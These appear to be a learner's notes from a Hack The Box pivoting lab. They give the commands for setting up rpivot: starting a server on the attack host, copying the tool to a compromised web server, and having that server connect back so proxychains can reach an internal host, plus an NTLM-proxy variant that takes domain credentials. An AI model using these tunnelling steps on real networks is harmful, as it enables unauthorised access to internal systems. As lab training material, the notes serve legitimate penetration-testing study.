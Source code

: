 
![](https://academy.hackthebox.com/storage/modules/158/77.png)

```shell-session
AhmaDb0x@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

```shell-session
AhmaDb0x@htb[/htb]$ sudo apt-get install python2.7
```

```shell-session
AhmaDb0x@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

```shell-session
AhmaDb0x@htb[/htb]$ scp -r rpivot ubuntu@10.129.11.152:/home/ubuntu/
```

---


```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.15.5 --server-port 9999
```

----

```shell-session
proxychains firefox-esr 172.16.5.135:80
```


```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```